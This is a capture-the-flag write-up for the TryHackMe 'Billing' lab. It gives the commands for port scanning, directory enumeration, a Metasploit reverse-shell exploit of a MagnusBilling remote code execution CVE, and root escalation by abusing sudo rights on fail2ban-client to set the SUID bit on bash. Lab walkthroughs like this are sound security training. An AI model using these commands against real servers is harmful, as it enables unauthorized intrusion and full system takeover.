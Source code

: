 # Billing - TryHackMe Writeup

## Introduction
This box offered a classic web exploitation path, starting from directory enumeration to remote code execution via a known vulnerability in a billing system. With some privilege escalation tricks involving <b>fail2ban</b>, we were able to achieve full root access.

## Port Scanning
We begin with a full port scan:
```python
nmap -sC -sV -p- -T4 10.10.214.36
```
Open ports found:
```python
22 SSH
80 HTTP
3306 MySQL
5038 Asterisk Manager Interface
```
##  Web Enumeration
Visiting the web server revealed a login form at /mbilling, but no valid credentials were immediately available.

Let's enumerate directories:
```python
gobuster dir -u http://10.10.214.36/mbilling/ -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt
```
Interesting result:

/robots.txt — This hinted at hidden or sensitive content.

## Exploiting Asterisk (MagnusBilling RCE)
We searched Metasploit for known vulnerabilities in MagnusBilling (a VoIP billing system):
```python
msfconsole
search Asterisk
```
Found module:
```python
exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```
Using it:
```python
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
set RHOSTS 10.10.214.36
set LHOST <your_ip>
exploit
```
Reverse shell obtained.

Reading User Flag
```python
cat user.txt
```
## Privilege Escalation
Checking for sudo permissions:
```python
sudo -l
```
Output:
```python
(ALL) NOPASSWD: /usr/bin/fail2ban-client
```
We exploited fail2ban-client to escalate privileges:
```python
sudo /usr/bin/fail2ban-client status

sudo /usr/bin/fail2ban-client get ip-blacklist actions

sudo /usr/bin/fail2ban-client set ip-blacklist addaction evil

sudo /usr/bin/fail2ban-client set ip-blacklist action evil actionban "chmod +s /bin/bash"

sudo /usr/bin/fail2ban-client set ip-blacklist banip 1.2.3.5
```
Now we have a root shell:
```python
/bin/bash -p
whoami
# root
```
## Conclusion
This box combined a web-based remote code execution with a creative privilege escalation via fail2ban. It was a great example of chaining misconfigurations and known CVEs to gain full system compromise.
```python
cat /root/root.txt
```
